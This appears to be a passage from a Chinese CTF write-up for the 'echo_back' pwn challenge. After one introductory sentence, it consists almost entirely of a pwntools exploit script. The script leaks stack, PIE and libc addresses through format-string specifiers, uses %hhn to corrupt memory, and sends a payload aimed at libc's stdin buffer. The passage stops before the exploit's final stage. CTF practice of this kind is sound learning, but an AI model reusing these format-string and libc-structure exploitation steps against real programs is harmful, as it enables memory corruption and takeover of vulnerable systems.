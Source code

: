这里主要说一下scanf的利用，关于格式化字符串的内容就不过多的叙述。

完整exp：

```
#coding:utf-8
from pwn import *
context.log_level = 'debug'
debug = 1
elf = ELF('./echo_back')

if debug:
     p = process('./echo_back')
     libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
     context.log_level = 'debug'

else:
     p = remote('', xxxx)
     libc = ELF('./libc.so.6')
def dubug():
    gdb.attach(p)
    pause()

def set_name(name):
    p.recvuntil('choice&gt;&gt;')
    p.sendline('1')
    p.recvuntil('name')
    p.send(name)

def echo(content):
    p.recvuntil('choice&gt;&gt;')
    p.sendline('2') 
    p.recvuntil('length:')
    p.sendline('-1')
    p.send(content)
#----------------------------stack----------------------------------------------
echo('%12$pn')
p.recvuntil('anonymous say:')
stack_addr = int(p.recvline()[:-1],16)
#----------------------------elf---------------------------------------------
echo('%13$pn')
p.recvuntil('anonymous say:')
pie = int(p.recvline()[:-1],16)-0xd08
#----------------------------libc---------------------------------------------
echo('%19$pn')
p.recvuntil('anonymous say:')
libc.address = int(p.recvline()[:-1],16)-240-libc.symbols['__libc_start_main']
print '[+] system :',hex(libc.symbols['system'])
set_name(p64(libc.address + 0x3c4918)[:-1])
echo('%16$hhn')
p.recvuntil('choice&gt;&gt;')
p.sendline('2') 
p.recvuntil('length:')
payload = p64(libc.address+0x3c4963)*3 + p64(stack_addr-0x28)+p64(stack_addr+0x10)
p.send(payload)
p.sendline('')
for i in range(len(payload)-1):
    p.recvuntil('choice&gt;&gt;')
    p.sendline('2') 
    p.recvuntil('length:')
    p.sendline('')

p.recvuntil('choice&gt;&gt;')
p.sendline('2') 
p.recvuntil('length:')
```